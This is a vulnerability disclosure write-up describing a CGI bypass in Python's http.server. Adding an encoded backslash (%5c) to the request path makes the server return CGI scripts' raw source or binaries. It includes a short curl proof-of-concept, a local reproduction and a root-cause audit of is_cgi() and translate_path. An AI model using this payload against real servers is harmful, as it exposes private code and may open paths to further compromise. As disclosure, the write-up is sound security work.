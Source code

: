 
# [](#header-3)A report on the Python http.server CGI Bypass: Source Code Disclosure

Vulnerability Product: CPython   
Vulnerability Vendor: Python Software Foundation  
Vulnerability type: CGI resolve bypass and source code/program disclosure  
Vulnerability Version:   
&nbsp;&nbsp;&nbsp;&nbsp;Affected — from Python 3.0.0 below 3.0.1  
&nbsp;&nbsp;&nbsp;&nbsp;Affected — from 3.1.0 below 3.1.5  
&nbsp;&nbsp;&nbsp;&nbsp;Affected — from 3.2.0 below 3.2.6  
&nbsp;&nbsp;&nbsp;&nbsp;Affected — from 3.3.0 below 3.3.7  
&nbsp;&nbsp;&nbsp;&nbsp;Affected — from 3.4.0 below 3.4.10  
&nbsp;&nbsp;&nbsp;&nbsp;Affected — from 3.5.0 below 3.5.10  
&nbsp;&nbsp;&nbsp;&nbsp;Affected — from 3.6.0 below 3.6.15  
&nbsp;&nbsp;&nbsp;&nbsp;Affected — from 3.7.0 below 3.7.17  
&nbsp;&nbsp;&nbsp;&nbsp;Affected — from 3.8.0 below 3.8.20  
&nbsp;&nbsp;&nbsp;&nbsp;Affected — from 3.9.0 below 3.9.23  
&nbsp;&nbsp;&nbsp;&nbsp;Affected — from 3.10.0 below 3.10.18  
&nbsp;&nbsp;&nbsp;&nbsp;Affected (Deprecated) — from 3.11.0 below 3.11.13  
&nbsp;&nbsp;&nbsp;&nbsp;Affected (Deprecated) — from 3.12.0 below 3.12.11  
Vulnerability Authentication Requirement: No  
Notice: May only affect the vast majority of versions of Windows Operation System
Discovered by: leeya_bug  


Python’s http.server module is a lightweight HTTP server that originated in the early standard library, combining the functionality of the old SimpleHTTPServer (for serving static files) and CGIHTTPServer (for running Common Gateway Interface scripts). Its roots lie in the CGI standard of the 1990s, which allowed web servers to execute external scripts (often in Python or Perl) to generate dynamic content. Within http.server, the class CGIHTTPRequestHandler enabled developers to place scripts in a designated directory (such as /cgi-bin/) and have them executed in response to HTTP requests, simulating the behavior of traditional web servers.  

A CGI resolve bypass and source code/program disclosure vulnerability exists in Python http.server. When an attacker has no privileges on a remote instance running `python -m http.server --cgi`, it is eazy to bypass the CGI execution by injecting a crafted special character into the request path. This flaw allows the attacker to directly read and download the source code of CGI scripts, and under certain conditions, may even lead to remote code execution (RCE).

| Contents |
|--------|
| [PoC](#poc) |
| [Payload Attacking](#payload-attacking) |
| [Audit](#audit) |
| [My Info](#my-info) |

## [](#header-3)PoC

```cmd
curl https://testip:8000/%5c/{CGI}
```

For example, consider a CGI script accessible at:  
`https://192.168.1.3:8000/cgi-bin/test.cgi`  
By inserting a `%5c` (encoded backslash) at the beginning of the URL path, it is eazy to bypass the CGI resolve and get the raw CGI source code or script itself:  
`https://192.168.1.3:8000/%5c/cgi-bin/test.cgi`  

## [](#header-3)Payload Attacking

Here I choose the Python 3.12.10 as the test attacking target

![1.png](0.png)

First, set up a standard directory structure and place a Python CGI in to `/cgi-bin`, using `test.cgi` as the test script compiled from `test.cpp`.

![1.png](1.png)

[(Click to Download test.cgi)](test.cgi) [(Click to Download test.cpp)](test.cpp)

Directory structure:

cgi-bin/  
&nbsp;&nbsp;&nbsp;&nbsp;test.cgi  
&nbsp;&nbsp;&nbsp;&nbsp;test.cpp  


Secondly, run `python -m http.server --cgi` to start the cgi server, visit the test.cgi we just created, everything is ok, it returns `hello, world!` as expected.

![1.png](2.png)

![1.png](3.png)

Thirdly, adding a `%5c` at the beginning of the url path. You can found that there is a very big difference between the normal request `curl http://127.0.0.1:8000/cgi-bin/test.cgi` and the malicious request `curl http://127.0.0.1:8000/%5c/cgi-bin/test.cgi`

As shown in the red box in the image below, the response file received after sending a malicious request contains an executable file header, and its length is significantly greater compared to that of a normal request.  
All signs indicate that: `THIS IS A CGI`

![1.png](4.png)

Further verification: Let’s download the file and compare it with the original `test.cgi`; they have the same MD5 hash.  

we just download THE ORIGINAL CGI PROGRAM bypassed the cgi resolve

![1.png](5.png)

![1.png](6.png)

Vulnerability proved, but why this happend?


## [](#header-3)Audit: 

We all know that `CGIHTTPRequestHandler` is a subclass of SimpleHTTPRequestHandler in Python. When a GET request is received, the server executes the following logic inside `CGIHTTPRequestHandler`:

![1.png](7.png)

If `is_cgi()` returns True, the request is executed as a CGI script.  
If `is_cgi()` returns False, the server simply returns the script file contents as static code.  

However, due to incorrect path normalization in `_url_collapse_path` (called by `is_cgi()`), the presence of a backslash escape `%5c` at the beginning of the URL path causes `is_cgi()` to always return False. 

![1.png](8.png)

Meanwhile, the subsequent `translate_path` function correctly resolves the path, treating it as a valid script location.

![1.png](9.png)

This mismatch in logic results in a vulnerability: an attacker can bypass CGI resolve and force the server to treat CGI scripts as regular files, allowing direct source code disclosure and, in certain cases, paving the way for remote code execution (RCE).

## [](#header-3)My Info

This vulnerability was submitted for research purposes.  
I give my personal assurance that the attack process described above is authentic and works on Python 3.12.10. My name is leeya_bug and my email is leeyang928320@gmail.com

leeya_bug  
Now work as IoT/Kernel Security Researcher in a Chinese National-Owned Institude  



